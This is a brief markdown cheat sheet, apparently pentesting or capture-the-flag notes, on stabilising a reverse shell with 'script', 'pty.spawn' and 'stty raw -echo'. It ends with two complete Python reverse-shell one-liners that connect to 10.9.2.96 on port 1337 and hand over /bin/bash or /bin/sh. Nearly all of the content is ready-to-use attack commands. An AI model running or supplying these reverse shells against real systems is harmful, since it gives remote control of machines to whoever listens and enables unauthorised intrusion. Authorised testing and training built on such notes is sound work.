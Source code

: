 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
export TERM=xterm
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```shell
python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTY0MDY0NTkzMCwtMTE3MDQ2OTg1MiwyMz
UyNDUyMzIsMTQ2MTc0NDA2LDE5MzgyMTE4NDYsLTE0MjUxNDA5
NywxOTEzNTkyMTkxXX0=
-->